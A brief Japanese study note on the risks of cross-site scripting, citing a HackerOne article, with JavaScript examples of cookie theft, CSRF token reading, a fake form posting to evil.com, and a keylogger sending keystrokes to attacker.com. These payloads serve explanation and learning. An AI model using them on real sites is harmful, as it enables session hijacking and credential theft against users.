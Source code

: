 ## ## 参考サイト
- https://www.hackerone.com/knowledge-center/how-xss-payloads-work-code-examples-and-how-prevent-them

## ## XSSのリスク
- CookieやSessionの窃取
```js
<script>new Image().src="https://attacker.com/cookie.php?cookie="+document.cookie</script>
```
- CSRFの窃取
```js
document.querySelector('[name=csrf]')
```
- フィッシング(偽UI挿入)
```js
document.body.innerHTML = '<form action="http://evil.com"><input name="pass"></form>';
```
- keylogger
	- 入力されたキーを1つずつ攻撃者へ送信する。
```js
document.onkeypress = function(e) {
  fetch("http://attacker.com/log?key=" + e.key);
};
```